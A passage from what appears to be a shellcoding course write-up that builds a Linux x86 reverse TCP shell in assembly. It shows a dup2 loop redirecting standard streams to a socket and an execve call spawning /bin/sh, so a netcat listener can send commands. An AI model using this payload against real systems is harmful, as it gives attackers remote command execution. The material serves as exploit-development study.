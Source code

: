 Next, we're ready to redirect `stdin`/`stdout`/`stderr` towards the server socket.

```nasm
    ; loop counter (repeats dup2() three times)
    mov ecx, ebx

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, esi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate
```

As for the previous assignment, the `loop` instruction repeats the routine `RepeatDuplicate` three times, once for `stderr` (`0x2`), `stdout` (`0x1`), and for `stdin` (`0x0`):

Finally, it spawns a shell:

```nasm
    push ecx
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; execve syscall
    xor eax, eax
    mov al, 11
    int 0x80
```

From now on, every message that will be sent from the netcat listener is going to be interpreted as a command, since the file descriptors of the `shell` are redirected to those of the `socket`.

## Automation

One of the requirements of the assignment is to be able to easily configure `IP address` and `TCP port`. For this reason, I chose to reuse the script I wrote for the first assignment, to which I've made some small changes in order to use arbitrary IP addresses too.
